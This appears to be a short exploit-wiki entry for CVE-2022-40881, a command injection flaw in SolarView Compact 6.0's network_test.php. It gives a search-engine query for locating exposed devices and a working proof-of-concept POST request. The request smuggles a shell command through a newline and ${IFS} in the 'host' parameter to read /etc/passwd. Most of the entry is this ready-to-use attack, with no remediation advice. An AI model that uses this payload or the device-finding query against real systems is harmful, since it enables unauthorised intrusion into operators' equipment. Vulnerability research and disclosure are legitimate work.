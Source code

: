 # SolarView network_test.php Remote command execution vulnerability CVE-2022-40881

## Vulnerability Description

There is a remote command execution vulnerability in SolarView network_test.php. The attacker can obtain server permissions by constructing special requests.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SolarView Compact 6.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="SolarView Compact" && title=="Top"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72-0128095.png)

Verify POC

```php
POST /network_test.php
  
host=%0acat${IFS}/etc/passwd%0a&command=ping
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1670128065393-34dcd02a-13db-4542-8069-421575487d03.png)